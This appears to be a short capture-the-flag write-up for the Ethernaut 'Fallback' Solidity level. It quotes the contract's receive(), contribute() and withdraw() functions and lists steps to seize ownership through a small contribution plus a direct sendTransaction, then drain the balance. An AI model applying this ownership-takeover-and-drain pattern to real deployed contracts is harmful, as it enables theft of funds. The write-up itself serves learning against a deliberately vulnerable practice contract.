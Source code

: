 # 1. Fallback
**claim contract ownership**

```
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
- requires contributions[msg.sender] > 0
- can use contribute() to send < 0.001 ether to make contribution > 0

```
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- after contribution made, can send from outside ABI
`sendTransaction({from: "[player address]", to: "0xB825AD17f8a0c2e7947cAd5Bc277C873B9505925", value: "1000"})`

**reduce balance to 0**
- after sendTransaction() is called can call withdraw()

```
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

